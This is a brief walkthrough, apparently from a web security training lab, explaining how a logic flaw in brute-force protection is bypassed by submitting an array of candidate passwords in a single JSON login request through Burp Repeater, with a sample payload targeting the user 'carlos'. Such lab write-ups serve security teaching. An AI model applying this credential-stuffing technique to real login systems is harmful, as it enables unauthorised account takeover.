 # Broken brute-force protection, multiple credentials per request
- lab is vulnerable due to a logic flaw in its brute-force protection
# Goal
- lab is vulnerable due to a logic flaw in its brute-force protection
# Solving The lab
-  Notice that the POST /login request submits the login credentials in JSON format. Send this request to Burp Repeater
-  in Repeater, replace the single string value of the password with an array of strings containing all of the candidate passwords
```
"username" : "carlos",
"password" : [
    "123456",
    "password",
    "qwerty"
    ...
]
```
- This will return a 302 response and we solved the lab if we follow the redirect

